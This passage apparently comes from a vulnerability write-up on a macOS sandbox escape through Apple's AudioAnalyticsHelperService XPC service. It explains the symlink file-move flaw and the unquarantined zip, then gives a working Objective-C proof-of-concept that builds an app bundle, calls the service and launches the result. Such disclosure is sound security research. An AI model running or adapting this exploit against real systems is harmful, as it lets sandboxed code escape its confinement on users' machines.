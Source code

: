 ```
            NSString *dstPath = [compressPath stringByAppendingPathComponent:item];
            [fm moveItemAtPath:srcPath toPath:dstPath error:nil];
        }
    }
    
    NSString *zipPath = [path stringByAppendingPathComponent:[NSString stringWithFormat:@"audio_analytics_reporting_%@.zip", [self nowTimeString]]];
    [self createZipArchiveForURL:[NSURL fileURLWithPath:compressPath] destinationURL:[NSURL fileURLWithPath:zipPath]];
}
```

As we can see here, it helps to compress an arbitrary path that is specified by the XPC client. 

It first creates a folder named `compressed` in the specified path, if the path does not exist. It then enumerates the files in the specified path with the `json` suffix and moves them to the `compressed` folder. In the file move operation, an attacker can move an arbitrary file to an arbitrary location by replacing the `compressed` folder with a symlink. The source file content is not checked, but the destination file path must have the suffix `json`.

Finally, it creates a zip file from the `compressed` folder. 

Note that the **newly generated zip file will not be quarantined** because the XPC service itself is not sandboxed at all.

### The exploit and demo

```
@protocol AudioAnalyticsHelperServiceProtocol
-(void)pruneZips:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
-(void)createZipAtPath:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
@end
void exploit_AudioAnalyticsHelperService(void) {
    NSString *currentPath = NSTemporaryDirectory();
    chdir([currentPath UTF8String]);
    NSLog(@"======== preparing payload at the current path:%@", currentPath);
    system("mkdir -p compressed/poc.app/Contents/MacOS; touch 1.json");
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"compressed/poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
    system("chmod +x compressed/poc.app/Contents/MacOS/poc");
    
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.internal.audioanalytics.helper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(AudioAnalyticsHelperServiceProtocol)];
    [conn resume];
    
    [[conn remoteObjectProxy] createZipAtPath:currentPath hourThreshold:0 withReply:^(id *error){
        NSDirectoryEnumerator *dirEnum = [[[NSFileManager alloc] init] enumeratorAtPath:currentPath];
        NSString *file;
        while ((file = [dirEnum nextObject])) {
            if ([[file pathExtension] isEqualToString: @"zip"]) {
                // open the zip
                NSString *cmd = [@"open " stringByAppendingString:file];
                system([cmd UTF8String]);

                sleep(3); // wait for decompression and then open the payload (poc.app)
                NSString *cmd2 = [NSString stringWithFormat:@"open /Users/%@/Downloads/%@/poc.app", NSUserName(), [file stringByDeletingPathExtension]];
                system([cmd2 UTF8String]);
                break;
```
